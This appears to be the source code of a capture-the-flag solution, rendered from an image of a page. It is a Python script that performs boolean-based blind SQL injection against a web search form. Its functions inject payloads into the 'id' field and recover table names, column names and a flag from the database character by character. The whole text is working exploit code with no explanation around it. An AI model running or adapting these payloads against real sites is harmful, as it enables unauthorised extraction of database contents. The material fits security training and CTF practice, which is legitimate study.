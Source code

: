 ```python

def getTables(database):
    tables = ''
    for i in range(50):
        for j in s:
            payload='1" && (select substr((select group_concat(table_name) from information_schema.tables where table_schema in ("'+database+'")),'+str(i+1)+',1) in ("'+str(j)+'")) -- '
            # print payload
            text = getData(url,payload)
            if 'find' in text:
                tables += j
                print tables
                break
 
    print '[*] Tables names is : ' + tables
    table = tables.split(',')[0]


def getColumns(table):
    columns = ''
    for i in range(20):
        for j in s:
            payload='1" && (select substr((select group_concat(column_name) from information_schema.columns where table_name in ("'+table+'")),'+str(i+1)+',1) in ("'+str(j)+'")) -- '

            text = getData(url,payload)
            if 'find' in text:
                columns += j
                print columns
                break
 
    print '[*] Columns names is : ' + columns
    column = columns.split(',')[0]
    # getFlag(table, column)

def getFlag(db,table,column):
    flag = ''
    for i in range(50):
        for j in s:
            payload='1" && (select substr((select group_concat('+column+') from '+db+'.'+table+'),'+str(i+1)+',1) in ("'+str(j)+'")) -- '

            text = getData(url,payload)
            if 'find' in text:
                flag += j
                print flag
                break
    print '[*] The flag is: ' + flag


def getData(url,payload):
    data={
        'id':payload,
        'Submit':'Search'
    }
    headers={
    'User-Agent':'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded'
    }
    r = requests.post(url, data=data,headers=headers)
    return r.text

```